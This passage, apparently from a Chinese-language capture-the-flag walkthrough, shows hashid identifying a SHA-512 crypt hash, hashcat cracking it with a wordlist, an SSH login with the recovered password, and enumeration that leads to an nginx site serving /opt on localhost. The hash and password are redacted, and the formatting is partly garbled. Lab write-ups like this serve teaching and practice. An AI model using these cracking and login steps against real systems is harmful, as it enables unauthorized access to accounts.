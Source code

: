 pass.txt 是较早的。还有一个奇怪的文件。快速查找

```
# cat **.something#fake_can@be^here** files:**[HASH]**
```

好像是用户名和密码。可能会导致 SSH 访问。让我们看看这是什么散列。

```
# hashid hash.txt
--File 'hash.txt'--
Analyzing '**[HASH]**'
[+] SHA-512 Crypt
--End of file 'hash.txt'--
```

打开 hashcat，

```
# hashcat -m 1800 -a 0 hash.txt wordlists/dict.txt
**...
[HASH]**:**[PASSWORD]
...**
```

现在我们找到了用户的密码。让我们试着登录

```
# ssh files@10.10.X.X
files@10.10.X.X's password:**files@safezone**:**~**$
```

起作用了。让我们看看根目录。

```
# ls -al /
drwxr-xr-x  22 root root       4096 Jan 29 00:25 **lib** drwxr-xr-x   2 root root       4096 Mar 29 01:20 **lib64** drwx------   2 root root      16384 Jan 29 00:04 **lost+found** drwxr-xr-x   3 root root       4096 Jan 29 00:04 **media** drwxr-xr-x   2 root root       4096 Apr 26  2018 **mnt
drwxr-x---   2 root yash       4096 Jan 30 19:52 opt** dr-xr-xr-x 116 root root          0 Jun  6 12:46 **proc** drwx------   7 root root       4096 Mar 29 05:15 **root** drwxr-xr-x  26 root root        880 Jun  6 13:36 **run**
```

“opt”目录显示归“yash”集团所有。找到使用这条路径的人

```
# grep -rw "/opt" /etc /var /home 2> /dev/null
...
...
**/etc/nginx/sites-available/default: root /opt;** ...
...
```

在搜索结果中，这引起了我的注意。打开文件，

```
server {
    listen 127.0.0.1:8000 default_server;
    #listen [::]:8000 default_server;
    ...
    ...
    root /opt;
    ...
    ...
}
```
